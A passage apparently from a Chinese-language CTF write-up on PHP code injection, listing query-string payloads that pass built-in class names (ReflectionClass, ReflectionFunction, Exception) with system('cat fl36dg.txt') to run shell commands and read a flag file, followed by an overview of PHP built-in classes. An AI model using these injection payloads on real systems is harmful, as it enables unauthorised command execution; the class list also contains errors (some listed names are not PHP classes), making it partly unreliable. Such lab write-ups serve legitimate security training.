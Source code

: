    ```php
   ?v1=ReflectionClass&v2=system('cat fl36dg.txt')
   ?v1=ReflectionFunction&v2=system('cat fl36dg.txt')
   ```

3. Exception

   ```php
   ?v1=Exception&v2=system('cat fl36dg.txt')
   ```

4. 内置类

   ?v1=内置类&v2=system('cat fl36dg.txt')

   > PHP 提供了许多内置类，这些类覆盖了从基本的数据结构到网络编程的各个方面。以下是一些常见的 PHP 内置类：
   >
   > 1. **基本数据类型类**:
   >    - `stdClass`：一个简单的标准类，没有预定义的属性或方法。
   >
   > 2. **资源处理类**:
   >    - `Closure`：表示一个闭包（匿名函数）。
   >    - `Generator`：表示一个生成器，用于创建生成器函数。
   >
   > 3. **异常处理类**:
   >    - `Exception`：所有异常类的基类。
   >    - `ErrorException`：表示一个错误信息。
   >
   > 4. **集合与数组处理类**:
   >    - `ArrayObject`：允许数组或对象像对象一样被操作。
   >    - `SplObjectStorage`：存储对象的集合。
   >    - `ArrayIterator`：允许数组通过迭代器接口进行迭代。
   >    - `RecursiveArrayIterator`：支持递归遍历数组。
   >    - `IteratorIterator`：装饰一个迭代器。
   >
   > 5. **文件系统和目录类**:
   >    - `DirectoryIterator`：用于遍历文件系统的目录。
   >    - `FilesystemIterator`：提供文件系统目录的过滤器。
   >    - `GlobIterator`：用于遍历匹配特定模式的文件路径。
   >
   > 6. **多字节字符串和正则表达式类**:
   >    - `MBString`：多字节字符串函数。
   >    - `RegexIterator`：使用正则表达式过滤迭代器。
   >
   > 7. **日期和时间类**:
   >    - `DateTime`：表示日期和时间。
   >    - `DateInterval`：表示时间间隔。
   >    - `DateTimeZone`：表示时区。
   >
   > 8. **JSON 处理类**:
   >    - `JsonSerializable`：允许对象被序列化为 JSON。
   >    - `stdClass`：用于解析 JSON 对象。
   >
   > 9. **XML 处理类**:
   >    - `DOMDocument`：表示一个 XML 文档。
   >    - `SimpleXMLElement`：表示一个简单的 XML 元素。
   >    - `XMLReader`：提供一种方式来读取 XML 文档。
   >
   > 10. **网络编程类**:
   >     - `cURL`：用于发起 HTTP 请求。
   >     - `FTP`：用于 FTP 连接和操作。
   >
   > 11. **数据库和数据存储类**:
   >     - `PDO`：提供了一个数据访问抽象层，用于连接和操作多种数据库。
   >     - `PDOStatement`：表示一个 PDO 语句。
   >     - `mysqli`：用于连接和操作 MySQL 数据库。
   >